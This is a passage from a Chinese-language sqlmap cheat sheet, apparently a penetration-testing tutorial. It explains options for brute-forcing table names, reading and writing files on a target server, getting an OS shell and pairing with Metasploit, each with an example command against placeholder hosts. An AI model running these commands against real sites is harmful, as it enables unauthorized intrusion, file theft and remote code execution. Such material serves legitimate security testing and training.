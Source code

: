 ```
sqlmap -u "http://xxx.com/xxx.php?id=1" --pivot-columm id --where="id>3
```



## 0x42 --common-tables、--common-columns
sqlmap暴力破解数据，使用场景为当Mysql<5.0版本时，mysql中没有元数据库information_schema，这时只能用常用数据库名表名列名来暴力破解。

如access数据库、mysql5.0以下就需要暴力跑。

```
sqlmap -u "http://xxx.com/xxx.php" -D security --common-tables
```


然后会让你选择默认还是自己导入。默认的话字典文件在sqlmap/data/txt/*.txt。



## 0x43 --file-read
读取目标服务器里的文件内容保存到本地。必须是绝对路径。

```
sqlmap -u "http://xxx.com/xxx.php?id=1" --file-read="F:\\flag.txt"
```



## 0x44 --file-write、--file-dest
- --file-write 读取本地文件
- --file-dest  将本地文件写入到远程路径

```
sqlmap -u "http://xxx." --file-write="/root/Desktop/hello.txt"  --file-dest="F:\\hello.txt"
```



## 0x45 --all

返回所有信息。



## 0x46 --os-shell
执行系统命令。有三点要求：

- 弱连接
- 知道站点目录在root中的绝对路径
- 关闭了gpc（也就是magicquotes功能）

然后会提示选择PHP、JSP、ASP、ASPX等，然后再选择破解站点目录位置的方法，可以导入文件，或者单个输入，或者直接暴力破解，或者默认（几个最常见的）。



## 0x47 --os-pwn
结合metasploit。
